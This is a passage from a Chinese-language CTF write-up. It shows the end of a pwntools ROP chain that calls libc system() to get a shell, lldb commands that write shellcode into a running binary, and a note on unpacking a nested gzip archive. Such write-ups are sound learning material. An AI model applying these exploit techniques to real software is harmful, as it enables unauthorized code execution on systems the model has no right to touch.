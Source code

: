 ```python
rop2.raw(p64(0x40112f))
# ropper --file libc.so.6 --search "pop rdi"
pop_rdi = libc.address + 0x2a3e5
rop2.raw(p64(pop_rdi))
rop2.raw(p64(sh_addr))
rop2.raw(p64(libc.symbols['system']))

p.recvuntil(b'characters')
p.sendline(b'1')
p.recvuntil(b'flag: ')
p.recvuntil(b'it?')
p.sendline(rop2.chain())
p.recvuntil(b'again')
p.sendline(b'1')
p.interactive()
```

## 禁止执行，启动

### Flag 1

环境里提供了 lldb，那就可以用 lldb 修改内存中 binary 的代码，从而执行 shell code。
我这里用 `process launch --stop-at-entry` 在程序开始前断下来，并把 shell code 写在了 entry point。

```
memory write 0x4038b1 0x31
memory write 0x4038b2 0xc0
memory write 0x4038b3 0x66
memory write 0x4038b4 0xb8
memory write 0x4038b5 0x24
memory write 0x4038b6 0x02
memory write 0x4038b7 0x31
memory write 0x4038b8 0xff
memory write 0x4038b9 0x48
memory write 0x4038ba 0x89
memory write 0x4038bb 0xe6
memory write 0x4038bc 0x0f
memory write 0x4038bd 0x05
```

题目给的 getflag syscall 把 flag 写到了 rsp，不过这里没有调输出 rsp。
~~都有调试器了，手动看一下也挺方便，总比再构造 memory write 语句方便~~。


## 未来磁盘

### Flag 1

题目说经过了多次 gzip 压缩，所以先摸个底，重复解压，直到文件的 header 不再是 gzip 文件头 1f 8b。

此时得到了一个 7.5G 的压缩文件，把它解压了就有 flag 了。
